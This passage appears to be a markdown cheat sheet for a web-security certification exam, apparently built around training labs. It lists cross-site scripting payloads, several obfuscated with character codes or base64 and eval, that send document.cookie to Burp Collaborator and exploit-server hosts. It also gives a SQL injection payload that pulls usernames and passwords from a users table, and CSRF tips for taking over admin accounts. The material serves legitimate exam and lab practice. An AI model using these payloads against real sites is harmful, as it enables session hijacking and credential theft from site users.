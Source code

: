 ```
\';document.location=`http://burp.oastify.com/?c=`+document.cookie;//
```
14. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped  
```
http://foo?&apos;-alert(1)-&apos;
```
15. Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped  
```
${alert(1)}
```
### Bypasses:
```
</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 

Can be interpreted as

</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```

```
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
"-alert``}//
"}; location=”https://BURP-COLLABORATOR-URL/?”+document.cookie; //
%22};%20location=%22https://BURP-COLLABORATOR-URL/?%22%2bdocument.cookie;%20//
```

```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```
### Possibly helpful to steal cookie
```
"-(window["document"]["location"]="https://exploit%2D0ac7002303d74533c0b472c9016a00f3%2Eexploit%2Dserver%2Enet/?c="+window["document"]["cookie"])-"  
OR my variant:  
"-(window["location"]="http://umk7m0a67ilv35u5uonbj2i08rei29qy%2eoastify%2ecom/?c="+window["document"]["cookie"])}//
```
## SQL injections
If you have `Advanced Search` page on your exam, you are more likely about to get easy priv escalation.  
Also check `TrackingId` cookie  
Run `sqlmap` with risk 3 and level 5  
Also SQL injection vector could be potentially found in XML (stock check functionality) and it would not be found with sqlmap. We need to exploit it using Hackvertor entity encoding:
```
<storeId><@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities></storeId>
```
## CSRF
Arises in update email functionality  
Potentially the main goal of CSRF is to change admin's mail and then reset his password.  
Generate CSRF PoC of update-email page with Burp and try to bypass restrictions:
* Сhange request method.